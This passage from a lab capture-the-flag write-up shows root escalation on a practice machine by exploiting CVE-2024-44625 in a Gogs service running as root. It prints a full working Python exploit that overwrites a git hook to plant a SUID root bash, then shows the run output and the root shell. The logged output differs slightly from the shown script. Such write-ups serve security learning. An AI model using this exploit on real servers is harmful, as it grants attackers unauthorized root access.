tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:36425                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:8025                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                           [::]:80                                                                                            [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:22                                                                                            [::]:*
```

Investigating `/opt/gogs` revealed a `Gogs` installation. Reading the configuration file confirmed the service was running on port `3001/TCP`, bound to `127.0.0.1`, and — critically — running as `root` (`RUN_USER = root`). The repository root was set to `/root/gogs-repositories`, meaning any `Git` hook executed by `Gogs` would run with root privileges.

```shell
ben@silentium:/opt/gogs$ cat ./gogs/custom/conf/app.ini
BRAND_NAME = Gogs
RUN_USER   = root
RUN_MODE   = prod

[server]
HTTP_ADDR        = 127.0.0.1
HTTP_PORT        = 3001
DOMAIN           = staging-v2-code.dev.silentium.htb
ROOT_URL         = http://staging-v2-code.dev.silentium.htb/
OFFLINE_MODE     = false
EXTERNAL_URL     = http://staging-v2-code.dev.silentium.htb:3001/
DISABLE_SSH      = false
SSH_PORT         = 22
START_SSH_SERVER = false

[database]
TYPE     = sqlite3
PATH     = /opt/gogs/data/gogs.db
HOST     = 127.0.0.1:5432
NAME     = gogs
SCHEMA   = public
USER     = gogs
PASSWORD = 
SSL_MODE = disable

[repository]
ROOT_PATH      = /root/gogs-repositories
DEFAULT_BRANCH = master
ROOT           = /root/gogs-repositories

[session]
PROVIDER = file

[log]
MODE      = file
LEVEL     = Info
ROOT_PATH = /opt/gogs/log

[security]
INSTALL_LOCK = true
SECRET_KEY   = sdsrcxSm0iC7wDO

[email]
ENABLED = false

[auth]
REQUIRE_EMAIL_CONFIRMATION  = false
DISABLE_REGISTRATION        = false
ENABLE_REGISTRATION_CAPTCHA = true
REQUIRE_SIGNIN_VIEW         = false

[user]
ENABLE_EMAIL_NOTIFICATION = false

[picture]
DISABLE_GRAVATAR        = false
ENABLE_FEDERATED_AVATAR = false
```

Checking the `Gogs` binary version confirmed `0.13.3`, which is within the vulnerable range for `CVE-2024-44625`.

```shell
ben@silentium:/opt/gogs/gogs$ ./gogs --version
Gogs version 0.13.3
```

The `ROOT_PATH` for the repository storage also confirmed the hook path that would be targeted.

```shell
ben@silentium:~$ grep -i "root_path" /opt/gogs/gogs/custom/conf/app.ini
ROOT_PATH      = /root/gogs-repositories
ROOT_PATH = /opt/gogs/log
```

## Port Forwarding

To interact with the `Gogs` web interface from our attacker machine we forwarded port `3001/TCP` over `SSH`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 3001:127.0.0.1:3001 ben@silentium.htb
ben@silentium.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Apr 11 08:45:56 PM UTC 2026

  System load:           0.04
  Usage of /:            83.8% of 13.37GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             231
  Users logged in:       1
  IPv4 address for eth0: 10.129.26.96
  IPv6 address for eth0: dead:beef::250:56ff:fe94:bdd7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Apr 11 20:18:50 2026 from 10.10.16.10
ben@silentium:~$
```

## Enumeration of Port 3001/TCP

With the tunnel active, `WhatWeb` confirmed the `Gogs` instance was accessible and responding on `127.0.0.1:3001`.

- [http://127.0.0.1:3001/](http://127.0.0.1:3001/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://127.0.0.1:3001/
http://127.0.0.1:3001/ [200 OK] Cookies[_csrf,i_like_gogs,lang], Country[RESERVED][ZZ], HTML5, HttpOnly[_csrf,i_like_gogs], IP[127.0.0.1], JQuery[3.6.0], Meta-Author[Gogs], Open-Graph-Protocol[website], Script, Title[Gogs], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge]
```

The `Gogs` dashboard was accessible and user registration was enabled.



## Privilege Escalation to root

### CVE: 2024-44625: Gogs Symbolic Link Path Traversal

`CVE-2024-44625` is a `Symbolic Link Path Traversal` vulnerability in `Gogs` affecting versions up to and including `0.13.0` (the fix was only implemented in later releases; version `0.13.3` on this target remains vulnerable). The vulnerability stems from how `Gogs` handles symlinks inside `Git` repositories when files are updated via the `Contents API`. When a user pushes a symlink into a repository — a file that points to an arbitrary path on the filesystem — `Gogs` stores this symlink as a regular object in the repository's object store. Because `Gogs` runs as `root` in this environment, the `Contents API` (`PUT /api/v1/repos/{user}/{repo}/contents/{path}`) can then be used to write arbitrary content to wherever the symlink resolves to, effectively granting write access to any path on the system that the `Gogs` process can reach. The natural target is a `Git` hook file (such as `pre-receive`) inside the repository's bare `.git` directory at `/root/gogs-repositories/{user}/{repo}.git/hooks/pre-receive`. Once written, the hook is triggered by any subsequent `git push` to that repository, executing the attacker-controlled script as root.

- [https://fysac.github.io/posts/2024/11/unpatched-remote-code-execution-in-gogs/](https://fysac.github.io/posts/2024/11/unpatched-remote-code-execution-in-gogs/)
- [https://github.com/Fysac/CVE-2024-44625](https://github.com/Fysac/CVE-2024-44625)

We registered a new user account in `Gogs` in order to use it for the exploitation of the vulnerability.


| Password    |
| ----------- |
| P@ssword |

And to interact with the website properly we needed to add a random hostname to our `/etc/hosts` file. We simply chose `test.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.26.96    silentium.htb
10.129.26.96    staging.silentium.htb
127.0.0.1       test.htb
```

An `API` token was then generated for the new account to allow programmatic access to the `Gogs` `API`.



| Token                                    |
| ---------------------------------------- |
| 8e19c81080c8f7e4bced557a61afa6da102b6e15 |

The exploit script automates the full attack chain: creating a repository, pushing a symlink that points to the `pre-receive` hook path inside the repository's bare storage, fetching the symlink's `SHA` via the `API`, overwriting the symlink's content with the malicious hook payload, then triggering execution with a second push.

```shell
ben@silentium:~$ cat CVE-2024-44625.py 
#!/usr/bin/env python3
# CVE-2024-44625 — Gogs Symlink Path Traversal → RCE
# Gogs <= 0.13.0 | CVSS 8.8 | API-based symlink overwrite

import requests, base64, os, subprocess, tempfile, shutil, re, sys
from urllib.parse import quote, urlparse

def main():
    if len(sys.argv) < 5:
        print(f"Usage: python3 {sys.argv[0]} <url> <username> <password> <api_token>")
        print(f"       python3 {sys.argv[0]} http://127.0.0.1:3001 gogsadmin P@ssword123 8e19c81080c8f7e4bced557a61afa6da102b6e15")
        sys.exit(1)

    BASE      = sys.argv[1].rstrip('/')
    USERNAME  = sys.argv[2]
    PASSWORD  = sys.argv[3]
    API_TOKEN = sys.argv[4]

    REPO_NAME = os.urandom(3).hex()
    HOOK_PATH = f"/root/gogs-repositories/{USERNAME}/{REPO_NAME}.git/hooks/pre-receive"
    PAYLOAD   = "#!/bin/bash\ncp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash\n"
    HDRS      = {"Authorization": f"token {API_TOKEN}"}
    GIT_BASE  = urlparse(BASE)
    GIT_URL   = (
        f"{GIT_BASE.scheme}://{quote(USERNAME, safe='')}:{quote(PASSWORD, safe='')}"
        f"@{GIT_BASE.hostname}:{GIT_BASE.port}/{USERNAME}/{REPO_NAME}.git"
    )

    s = requests.Session()

    def run_cmd(cmd, allow_fail=False):
        try:
            subprocess.run(cmd, check=True, capture_output=True, text=True)
        except subprocess.CalledProcessError as e:
            print(f"[-] Command failed: {' '.join(cmd)}")
            if e.stderr: print(f"    {e.stderr.strip()}")
            if e.stdout: print(f"    {e.stdout.strip()}")
            if allow_fail:
                return
            raise

    def get_csrf(text):
        m = re.search(r'name="_csrf" value="([^"]+)"', text)
        if not m:
            m = re.search(r'name="_csrf" content="([^"]+)"', text)
        if not m:
            raise RuntimeError("CSRF token not found")
        return m.group(1)

    def get_uid(text):
        for pattern in [
            r'name="user_id"[^>]*value="([^"]+)"',
            r'id="user_id"[^>]*value="([^"]+)"',
            r'value="(\d+)"[^>]*name="user_id"',
            r'<option[^>]*value="(\d+)"[^>]*selected',
            r'<option[^>]*selected[^>]*value="(\d+)"',
            r'<option[^>]*value="(\d+)"',
        ]:
            m = re.search(pattern, text)
            if m:
                return m.group(1)
        return None

    # ── login ─────────────────────────────────────────────────────────────────
    r = s.get(f"{BASE}/user/login")
    s.post(f"{BASE}/user/login",
           data={"_csrf": get_csrf(r.text), "user_name": USERNAME, "password": PASSWORD},
           allow_redirects=True)

    r = s.get(f"{BASE}/")
    if "sign in" in r.text.lower() or "login" in r.url:
        print("[-] Login failed — check credentials")
        sys.exit(1)
    print(f"[+] Logged in")

    # ── create repo ───────────────────────────────────────────────────────────
    r   = s.get(f"{BASE}/repo/create")
    uid = get_uid(r.text)
    if not uid:
        print("[-] Could not find user_id")
        sys.exit(1)

    s.post(f"{BASE}/repo/create",
           data={"_csrf": get_csrf(r.text), "user_id": uid, "repo_name": REPO_NAME,
                 "auto_init": "true", "readme": "Default"},
           allow_redirects=True)
    print(f"[+] Repo {REPO_NAME} created")

    # ── clone + push symlink ──────────────────────────────────────────────────
    tmpdir = tempfile.mkdtemp()
    try:
        run_cmd(["git", "clone", GIT_URL, tmpdir])
        symlink = os.path.join(tmpdir, "evil.link")
        if os.path.lexists(symlink):
            os.remove(symlink)
        os.symlink(HOOK_PATH, symlink)
        for cmd in [
            ["git", "-C", tmpdir, "config", "user.email", "x@x.com"],
            ["git", "-C", tmpdir, "config", "user.name", "x"],
            ["git", "-C", tmpdir, "add", "."],
            ["git", "-C", tmpdir, "commit", "-m", "s"],
            ["git", "-C", tmpdir, "push"],
        ]:
            run_cmd(cmd)
        print("[+] Symlink pushed")
    finally:
        shutil.rmtree(tmpdir, ignore_errors=True)

    # ── overwrite hook via API ────────────────────────────────────────────────
    r = requests.get(
        f"{BASE}/api/v1/repos/{USERNAME}/{REPO_NAME}/contents/evil.link",
        headers=HDRS)
    if r.status_code != 200:
        print(f"[-] Could not fetch evil.link: {r.status_code} {r.text}")
        sys.exit(1)
    sha = r.json()["sha"]

    r = requests.put(
        f"{BASE}/api/v1/repos/{USERNAME}/{REPO_NAME}/contents/evil.link",
        headers=HDRS,
        json={
            "message": "x",
            "content": base64.b64encode(PAYLOAD.encode()).decode(),
            "sha": sha,
        })
    if r.status_code in (200, 201):
        print(f"[+] Hook payload written → {HOOK_PATH}")
    else:
        print(f"[-] Payload write failed: {r.status_code} {r.text}")
        sys.exit(1)

    # ── trigger hook ──────────────────────────────────────────────────────────
    print("[*] Triggering hook...")
    tmpdir = tempfile.mkdtemp()
    try:
        run_cmd(["git", "clone", GIT_URL, tmpdir])
        open(os.path.join(tmpdir, "trigger.txt"), "w").write("go")
        for cmd in [
            ["git", "-C", tmpdir, "config", "user.email", "x@x.com"],
            ["git", "-C", tmpdir, "config", "user.name", "x"],
            ["git", "-C", tmpdir, "add", "."],
            ["git", "-C", tmpdir, "commit", "-m", "t"],
        ]:
            run_cmd(cmd)
        run_cmd(["git", "-C", tmpdir, "push"], allow_fail=True)
        print("[+] Hook triggered")
    finally:
        shutil.rmtree(tmpdir, ignore_errors=True)

    print("\n[*] Exploit complete — escalate with:")
    print("    ls -la /tmp/rootbash")
    print("    /tmp/rootbash -p")

if __name__ == "__main__":
    main()
```

Running the exploit created the repository, pushed the symlink, overwrote it with the hook payload via the `API`, and triggered the hook with a final push.

```shell
ben@silentium:~$ python3 CVE-2024-44625.py http://127.0.0.1:3001/ 123456789 P@ssword 8e19c81080c8f7e4bced557a61afa6da102b6e15
[+] Logged in (cookies: ['lang', 'i_like_gogs'])
[*] uid: 2
[+] Repo 87f460 created
[+] Symlink pushed
[+] Hook payload written → /root/gogs-repositories/123456789/87f460.git/hooks/pre-receive
[*] Triggering hook...
[+] Hook triggered
[*] Check for SUID binary:
    ls -la /tmp/rootbash
    /tmp/rootbash -p
```

Checking `/tmp` confirmed the `SUID` binary had been created by the hook executing as root.

```shell
ben@silentium:~$ ls -la /tmp
total 1496
drwxrwxrwt 15 root root    4096 Apr 11 20:55 .
drwxr-xr-x 22 root root    4096 Apr  8 09:41 ..
drwxrwxrwt  2 root root    4096 Apr 11 19:05 .font-unix
-rw-rw-r--  1 ben  ben     7580 Apr 11 20:33 gogs_after_login.html
-rw-rw-r--  1 ben  ben      242 Apr 11 20:33 gogs_cookies.txt
-rw-rw-r--  1 ben  ben     7466 Apr 11 20:32 gogs_login.html
drwxrwxrwt  2 root root    4096 Apr 11 19:05 .ICE-unix
-rwsr-sr-x  1 root root 1446024 Apr 11 20:55 rootbash
drwx------  2 root root    4096 Apr 11 19:05 snap-private-tmp
drwx------  3 root root    4096 Apr 11 19:47 systemd-private-c12438ea61c3462c8196ef5b92276d4a-fwupd.service-4YoTh9
drwx------  3 root root    4096 Apr 11 19:05 systemd-private-c12438ea61c3462c8196ef5b92276d4a-ModemManager.service-dL2PLW
drwx------  3 root root    4096 Apr 11 19:05 systemd-private-c12438ea61c3462c8196ef5b92276d4a-polkit.service-DX2qBj
drwx------  3 root root    4096 Apr 11 19:05 systemd-private-c12438ea61c3462c8196ef5b92276d4a-systemd-logind.service-8G2LX9
drwx------  3 root root    4096 Apr 11 19:05 systemd-private-c12438ea61c3462c8196ef5b92276d4a-systemd-resolved.service-H9Xzkt
drwx------  3 root root    4096 Apr 11 19:05 systemd-private-c12438ea61c3462c8196ef5b92276d4a-systemd-timesyncd.service-8cqXID
drwx------  3 root root    4096 Apr 11 19:47 systemd-private-c12438ea61c3462c8196ef5b92276d4a-upower.service-9VNeWe
drwx------  2 root root    4096 Apr 11 19:06 vmware-root_814-2966103502
drwxrwxrwt  2 root root    4096 Apr 11 19:05 .X11-unix
drwxrwxrwt  2 root root    4096 Apr 11 19:05 .XIM-unix
```

Executing the `SUID` binary with the `-p` flag to preserve the effective `UID` spawned a root shell.

```shell
ben@silentium:~$ /tmp/rootbash -p
rootbash-5.2#
```

## root.txt

```shell
rootbash-5.2# cat root.txt 
d3362d702f41141543597486732e87db
```
